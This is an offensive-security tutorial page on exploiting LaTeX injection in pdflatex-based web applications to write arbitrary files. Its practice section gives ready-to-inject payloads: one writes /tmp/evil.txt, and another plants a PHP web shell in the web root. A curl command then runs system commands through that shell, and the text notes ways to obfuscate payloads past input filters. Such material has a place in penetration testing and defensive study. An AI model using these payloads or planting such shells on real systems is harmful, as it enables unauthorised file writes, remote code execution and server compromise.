 ```yaml
---
title: Exploiting LaTeX Injection for Arbitrary File Write
description: Learn how to use LaTeX injection to perform arbitrary file writes on
  servers.
keywords:
- LaTeX injection
- file write
- arbitrary file write
- web security
- server exploitation
- pdflatex
- LaTeX commands
- remote code execution
- file manipulation
- cybersecurity
---
```


# Write File

## Context

This article demonstrates exploiting LaTeX injection vulnerabilities to perform arbitrary file writes on a server. To follow this guide effectively, you should be familiar with LaTeX command syntax, file system permissions, web server configurations, and the basics of LaTeX injection techniques.

## Theory

### LaTeX File Write Primitives

LaTeX includes several commands that allow file manipulation, which can be exploited if unsanitized user input is injected into a LaTeX processing system. The key commands for file writing include:

- **`\newwrite\outfile`**: This command creates a new file handle called `\outfile`.
- **`\openout\outfile=filename`**: Opens a file with the specified name for writing.
- **`\write\outfile{content}`**: Writes a specified line of content to the opened file.
- **`\closeout\outfile`**: Closes the file handle, finalizing the written content.

The injection of these commands into a vulnerable LaTeX environment can allow arbitrary files to be created or existing files to be overwritten.

### Attack Surface and Impact

The attack typically involves the following sequence: inject file write primitives, specify a target path, write the payload, and finally close the handle. The critical impact of such an attack depends on the files that can be targeted. Overwriting sensitive files like web roots or configuration files can result in significant security breaches, including code execution or denial of service.

### LaTeX Write File Syntax and Behavior

Understanding the syntax of LaTeX file manipulation commands is critical for crafting effective payloads:

- **`\newwrite\outfile`**: Initializes a file handle.
- **`\openout\outfile=/path/to/file`**: Specifies and opens the file for writing.
- **`\write\outfile{data}`**: Writes data into the file line by line.
- **`\closeout\outfile`**: Closes the file handle, saving the file.

Injections can circumvent basic security filters by obfuscating file paths or splitting malicious commands, allowing attackers to bypass input validation mechanisms.

## Practice

### Arbitrary File Write via LaTeX Injection

To execute an arbitrary file write, you can use the following payload:

```latex
\newwrite\outfile
\openout\outfile=/tmp/evil.txt
\write\outfile{owned by latex}
\closeout\outfile
```

- This payload initializes a new file handle, opens `/tmp/evil.txt` for writing, writes "owned by latex," and then closes the file handle.

**Steps to exploit:**

- Inject the payload into the LaTeX input field of the target web application.
- This requires an injection point in a web application that processes input with tools like `pdflatex`.
- Verify the successful file creation and content writing by checking the file on the server:

    ```bash
    ls -l /tmp/evil.txt
    ```
  This command should show the newly created file.

### Overwrite Web Application File for Code Execution

To achieve remote code execution via file write:

```latex
\newwrite\outfile
\openout\outfile=../webroot/shell.php
\write\outfile{<?php system($_GET['cmd']); ?>}
\closeout\outfile
```

- This payload attempts to create a PHP web shell in the web root directory.

**Steps to exploit:**

- Inject this payload to write the web shell into the application's root.
- Understand the server's directory structure and ensure the LaTeX process has the right permissions.
- Test the web shell functionality:

    ```bash
    curl http://target/webroot/shell.php?cmd=id
    ```
  If successful, this confirms remote code execution capabilities.

## Tools

- **pdflatex**
- **curl** 

This technique allows attackers to write arbitrary files on a server by exploiting vulnerable LaTeX configurations, potentially leading to severe security impacts, including remote code execution.